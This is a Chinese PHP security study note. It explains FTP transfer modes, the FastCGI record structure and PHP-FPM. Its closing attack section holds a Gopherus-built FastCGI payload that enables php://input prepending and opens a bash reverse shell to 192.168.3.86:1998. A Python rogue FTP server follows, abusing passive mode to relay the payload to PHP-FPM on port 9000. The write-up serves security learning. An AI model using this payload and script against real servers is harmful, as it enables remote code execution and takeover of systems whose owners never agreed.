

# PHP安全学习—FTP

Author: H3rmesk1t

# FTP的两种传输模式


> 先了解一下 FTP 的两种传输模式：主动模式(PORT模式)、被动模式(PASV模式)

> FTP 客户端和服务器之间需要建立两条 TCP 连接
```
(1) 控制连接：发送控制指令
(2) 数据连接：用于文件传输
```
> 对于两种传输模式来说，控制连接的建立过程都是一样的，均为服务器监听 21 号端口，客户端向服务器的该端口发起 TCP 连接；它们的不同之处在于数据连接的建立中"服务器"是处于"主动"还是"被动"的
> 在主动模式下，服务器通过控制连接知道客户端监听的端口后，使用自己的 20 端口作为源端口，发起 TCP 数据连接
> 在被动模式下，服务器监听 1024-65525 的一个随机端口，并通过控制连接将该端口告诉客户端，客户端向服务器的该端口发起 TCP 数据连接

> 当 FTP 客户端在私网而服务器在公网时(云主机应用场景)，应该使用 FTP 被动模式，因为这种应用场景 FTP 服务器访问不到在私网的 FTP 客户端，而 FTP 客户端是可以访问到 FTP 服务器的



# Fastcgi
## Fastcgi Record
> Fastcgi 其实是一个通信协议，和 HTTP 协议一样都是进行数据交换的一个通道，HTTP 协议是浏览器和服务器中间件进行数据交换的协议，浏览器将 HTTP 头和 HTTP 体用某个规则组装成数据包，以 TCP 的方式发送到服务器中间件，服务器中间件按照规则将数据包解码，并按要求拿到用户需要的数据，再以 HTTP 协议的规则打包返回给服务器

> 类比 HTTP 协议来说，fastcgi 协议则是服务器中间件和某个语言后端进行数据交换的协议，Fastcgi 协议由多个 record 组成，record 也有 header 和 body 一说，服务器中间件将这二者按照 fastcgi 的规则封装好发送给语言后端，语言后端解码以后拿到具体数据，进行指定操作，并将结果再按照该协议封装好后返回给服务器中间件

> 和 HTTP 头不同，record 的头固定 8 个字节，body 是由头中的 contentLength 指定，其结构如下

```C++
typedef struct {
  /* Header */
  unsigned char version; // 版本
  unsigned char type; // 本次record的类型
  unsigned char requestIdB1; // 本次record对应的请求id
  unsigned char requestIdB0;
  unsigned char contentLengthB1; // body体的大小
  unsigned char contentLengthB0;
  unsigned char paddingLength; // 额外块大小
  unsigned char reserved; 

  /* Body */
  unsigned char contentData[contentLength];
  unsigned char paddingData[paddingLength];
} FCGI_Record;
```
> 头由 8 个 uchar 类型的变量组成，每个变量 1 字节，其中 requestId 占两个字节，一个唯一的标志 id 以避免多个请求之间的影响；contentLength 占两个字节，表示 body 的大小
> 语言端解析了 fastcgi 头以后，拿到 contentLength，然后再在 TCP 流里读取大小等于 contentLength 的数据，这就是 body 体
> Body 后面还有一段额外的数据(Padding)，其长度由头中的 paddingLength 指定，起保留作用，不需要该 Padding 的时候，将其长度设置为 0 即可
> 可见一个 fastcgi record 结构最大支持的 body 大小是 2^16，也就是 65536 字节

## Fastcgi Type
> type 就是指定该 record 的作用，因为 fastcgi 一个 record 的大小是有限的，作用也是单一的，所以需要在一个 TCP 流里传输多个 record，通过 type 来标志每个 record 的作用，用 requestId 作为同一次请求的 id，也就是说每次请求会有多个 record，它们的 requestId 是相同的


> 看了这个表格就很清楚了，服务器中间件和后端语言通信，第一个数据包就是 type 为 1 的 record，后续互相交流，发送 type 为 4、5、6、7 的 record，结束时发送 type 为 2、3 的 record，当后端语言接收到一个 type 为 4 的 record 后，就会把这个 record 的 body 按照对应的结构解析成 key-value，环境变量的结构如下

```c++
typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair11;

typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair14;

typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair41;

typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair44;
```

> 这其实是 4 个结构，至于用哪个结构，有如下规则

```
key、value均小于128字节，用FCGI_NameValuePair11
key大于128字节，value小于128字节，用FCGI_NameValuePair41
key小于128字节，value大于128字节，用FCGI_NameValuePair14
key、value均大于128字节，用FCGI_NameValuePair44
```

# PHP-FPM (FastCGI进程管理器)
> FPM 其实是一个 fastcgi 协议解析器，Nginx 等服务器中间件将用户请求按照 fastcgi 的规则打包好通过 TCP 传给传给 FPM，FPM 按照 fastcgi 的协议将 TCP 流解析成真正的数据

> 例如：用户访问 `http://127.0.0.1/index.php?a=1&b=2`，如果 web 目录是 `/var/www/html` 那么 Nginx 会将这个请求变成如下 key-value 对

```C++
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

> 这个数组其实就是 PHP 中 `$_SERVER` 数组的一部分，也就是 PHP 里的环境变量，但环境变量的作用不仅是填充 `$_SERVER` 数组，也是告诉 fpm 要执行哪个PHP文件，PHP-FPM 拿到 fastcgi 的数据包后进行解析，得到上述这些环境变量。然后执行 `SCRIPT_FILENAME` 的值指向 PHP 文件，也就是 `/var/www/html/index.php`

# 攻击方式
> 先用 `Gopherus` 构造 Payload，取出 payload 中 _ 后面的字符


> 接着打 ftp 被动

```python
import socket
from urllib.parse import unquote
​
# 对gopherus生成的payload进行一次urldecode
payload = unquote("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%15%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH104%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%27SCRIPT_FILENAME/www/wwwroot/127.0.0.1/public/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00h%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.3.86/1998%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00")
payload = payload.encode('utf-8')
​
host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)
​
# ftp被动模式的passvie port,监听到1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()
​
# 计数器，用于区分是第几次ftp连接
count = 1
while 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")
​
    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")
​
    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")  
    else:
        conn.send(b"300 \n")
​
    print(conn.recv(20))  # EPSV\r\n'
    conn.send(b"200 \n")
​
    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        conn.send(b"227 127,0,0,1,4,210\n")  # 这里填写自己的IP 服务端告诉客户端需要到哪个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000
​
    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据链接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()
​
    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1
```